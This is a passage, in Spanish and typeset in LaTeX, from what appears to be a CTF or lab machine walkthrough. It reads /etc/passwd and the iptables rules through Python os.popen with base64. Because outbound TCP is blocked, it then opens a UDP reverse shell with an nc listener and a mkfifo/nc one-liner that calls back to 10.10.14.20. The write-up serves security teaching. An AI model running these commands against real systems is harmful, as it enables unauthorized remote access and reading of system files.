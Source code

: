 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/passwd'}\NormalTok{).read()}
\NormalTok{os.popen(}\StringTok{'base64 -w 0 /etc/iptables/rules.v4'}\NormalTok{).read()}
\end{Highlighting}
\end{Shaded}

El iptables nos muestra con la linea \texttt{-A\ OUTPUT\ -o\ ens33\ -p\ tcp\ -m\ state\ -\/-state\ NEW\ -j\ DROP} que la maquina victima nos
va a rechazar todas las communicaciones por \textbf{TCP}. Es por esta razon que no hemos creado directamente una reverse shell.

\hypertarget{vuln-exploit-gaining-access-3}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-3}}

\hypertarget{reverse-shell-por-udp}{%
\subsection*{Reverse shell por UDP}\label{reverse-shell-por-udp}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attaquante con el parametro \texttt{-u}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -u -nlvp 443}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

1.en la consola interactiva

\begin{verbatim}
```python
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
```
\end{verbatim}

Y ya esta\ldots{}

\hypertarget{tratamiento-de-la-tty-3}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-3}}
\end{document}
